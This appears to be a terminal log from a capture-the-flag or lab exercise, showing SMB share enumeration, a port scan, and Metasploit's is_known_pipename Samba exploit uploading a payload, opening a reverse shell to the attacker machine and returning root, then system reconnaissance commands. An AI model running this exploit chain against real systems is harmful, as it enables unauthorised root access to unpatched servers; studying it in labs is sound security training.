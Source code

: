 ┌──(kali㉿kali)-[~]
└─$ smbclient -L //10.10.230.185 -p 44544 -N

        Sharename       Type      Comment
        ---------       ----      -------
        nebula_share    Disk      
        IPC$            IPC       IPC Service (Nebula.io File Tansfer Server)
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.230.185 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available

┌──(kali㉿kali)-[~]
└─$ nmap -p 44544 10.10.33.174

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-13 16:24 EDT
Nmap scan report for 10.10.33.174
Host is up (0.065s latency).

PORT      STATE SERVICE
44544/tcp open  domiq

Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
                                                           
               
                                                                                                    
msf6 exploit(linux/samba/is_known_pipename) > exploit
[*] 10.10.33.174:44544 - Using location \\10.10.33.174\nebula_share\ for the path
[*] 10.10.33.174:44544 - Retrieving the remote path of the share 'nebula_share'
[*] 10.10.33.174:44544 - Share 'nebula_share' has server-side path '/srv/samba/share
[*] 10.10.33.174:44544 - Uploaded payload to \\10.10.33.174\nebula_share\EOIEcCtn.so
[*] 10.10.33.174:44544 - Loading the payload from server-side path /srv/samba/share/EOIEcCtn.so using \\PIPE\/srv/samba/share/EOIEcCtn.so...
[-] 10.10.33.174:44544 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 10.10.33.174:44544 - Loading the payload from server-side path /srv/samba/share/EOIEcCtn.so using /srv/samba/share/EOIEcCtn.so...
[+] 10.10.33.174:44544 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (10.8.105.111:33979 -> 10.10.33.174:44544) at 2025-04-13 16:46:42 -0400


whoami
root
uname -a
Linux Nebula-server 4.4.0-142-generic #168~14.04.1-Ubuntu SMP Sat Jan 19 11:26:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 14.04.6 LTS
Release:        14.04
Codename:       trusty
df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            482M  4.0K  482M   1% /dev
tmpfs           100M  316K   99M   1% /run
/dev/dm-0        11G  1.9G  8.1G  19% /
none            4.0K     0  4.0K   0% /sys/fs/cgroup
none            5.0M     0  5.0M   0% /run/lock
none            496M     0  496M   0% /run/shm
none            100M     0  100M   0% /run/user
/dev/xvda1      234M   41M  181M  19% /boot
free -h
             total       used       free     shared    buffers     cached
Mem:          990M       285M       705M       320K        13M       186M
-/+ buffers/cache:        86M       904M
Swap:         4.0G         0B       4.0G